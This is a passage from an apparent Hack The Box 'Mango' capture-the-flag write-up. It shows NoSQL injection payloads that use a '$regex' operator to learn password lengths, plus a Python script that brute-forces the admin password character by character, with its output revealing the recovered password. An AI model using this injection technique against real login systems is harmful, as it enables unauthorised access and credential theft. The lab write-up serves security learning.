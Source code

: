 Admin (12 characters): `username=admin&password[$regex]=^.{12}$&login=login`
Mango (16 characters): `username=mango&password[$regex]=^.{16}$&login=login`

For the password, I can just the same technique manually or write a simple script like the following to automate the process:

```python
#!/usr/bin/env python3

import re
import requests
import string

chars = string.ascii_letters + string.digits + string.punctuation

print(f"Charset {chars}")

url = "http://staging-order.mango.htb/"
p = ""

while True:
    print(p)
    for x in chars:
        data = {
            "username": "admin",
            "password[$regex]": f"^{re.escape(p+x)}.*$",
            "login": "login"
        }
        r = requests.post(url, data=data, proxies={"http":"127.0.0.1:8080"}, allow_redirects=False)
        if r.status_code == 302:
            p += x
            break
```

```
root@kali:~/htb/mango# ./mango.py 
Charset abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~

t
t9
t9K
t9Kc
t9KcS
t9KcS3
t9KcS3>
t9KcS3>!
t9KcS3>!0
t9KcS3>!0B
t9KcS3>!0B#
t9KcS3>!0B#2
t9KcS3>!0B#2
```

